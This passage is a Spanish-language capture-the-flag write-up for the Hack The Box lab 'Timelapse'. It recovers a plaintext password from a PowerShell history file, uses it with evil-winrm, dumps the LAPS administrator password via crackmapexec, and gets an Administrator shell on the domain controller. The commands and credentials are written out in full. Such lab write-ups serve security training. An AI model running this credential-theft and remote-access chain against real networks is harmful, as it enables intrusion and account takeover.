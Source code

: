 El historial de powershell se almacena en **C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt**, si lo leemos podemos ver que ha ejecutado varios comandos

```powershell
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

Observa que en la variable **$p** se le esta asignando el valor de **E3R$Q62^12p7PLlC%KWaxuaV**, pero hace uso de **ConvertTo-SecureString** para cifrar ese string, y despues con  **System.Management.Automation.PSCredential** le esta asignando la contraseña almacenada en **$p** al usuario **svc_deploy**, y esa contraseña es **E3R$Q62^12p7PLlC%KWaxuaV**, como el usuario **svc_deploy** pertecene el grupo **Remote Management Use** nos podemos conectar usando **EvilWinRM** con SSL

```ruby
evil-winrm -S -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

### Escalada de privilegios

Recordemos que **svc_deploy** pertecene al grupo **LAPS_Readers**, asi que es muy probable que podamos ver el contenido de LAPS, aqui hare una pausa, hay varias maneras de dumpear LAPS, podemos usar **Get-LAPSPasswords.ps1**, simplemente nos conectamos con **EvilWinRM** como **svc_deploy** y despues nos pasamos **Get-LAPSPasswords.ps1** y lo ejecutamos, o podemos usar **crackmapexec** con el modulo de **ldap**:

```ruby
crackmapexec ldap timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -M laps
```

```ruby
SMB         timelapse.htb   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
LDAP        timelapse.htb   389    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV 
LAPS        timelapse.htb   389    DC01             [*] Getting LAPS Passwords
LAPS        timelapse.htb   389    DC01             Computer: DC01$                Password: 3s:apT2HA9i(M2Q@8Jh8r0c@w1
```

(la contraseña es diferente para cada usuario)

La contraseña es: **3s:apT2HA9i(M2Q@8Jh8r0c@w1**

Ahora solo nos queda conectarnos por **EvilWinRM** como el usuario **Administrator** y ya

```ruby
evil-winrm -S -i timelapse.htb -u Administrator -p '3s:apT2HA9i(M2Q@8Jh8r0c@w1'
```
